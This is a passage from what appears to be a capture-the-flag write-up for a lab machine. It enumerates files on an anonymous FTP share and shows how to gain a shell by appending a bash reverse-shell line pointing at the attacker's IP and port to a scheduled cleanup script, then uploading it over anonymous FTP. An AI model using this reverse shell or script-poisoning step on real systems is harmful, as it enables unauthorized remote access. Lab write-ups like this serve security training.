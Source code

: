 ```
```
- **to_do.txt**
```
cat to_do.txt
I really need to disable the anonymous login...it's really not safe
```
Nothing...
- **clean.sh**
```
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
This script perform a delete from tmp folder and update the log files **removed_files.log**
- **removed_files.log**
```
cat removed_files.log
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```
---
### Exploitation

The approach couldbe : Update the **clean.sh** in order to gain shell access.

To do that, we can check [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and copy/paste this command line at the end of the script
```
bash -i >& /dev/tcp/[IP local machine]/[Port] 0>&1
```
When it is done, upload the new version of **clean.sh** , start a listener and wait ^^
```
ftp anonymous@10.10.116.126
Connected to 10.10.116.126.
220 NamelessOne's FTP Server!
331 Please specify the password.
Password:
230 Login successful.
ftp> cd scripts
250 Directory successfully changed.
ftp> append
(local-file) clean.sh
(remote-file) clean.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
370 bytes sent in 0.00149 seconds (243 kbytes/s)
```
```
namelessone@anonymous:~$ ls
```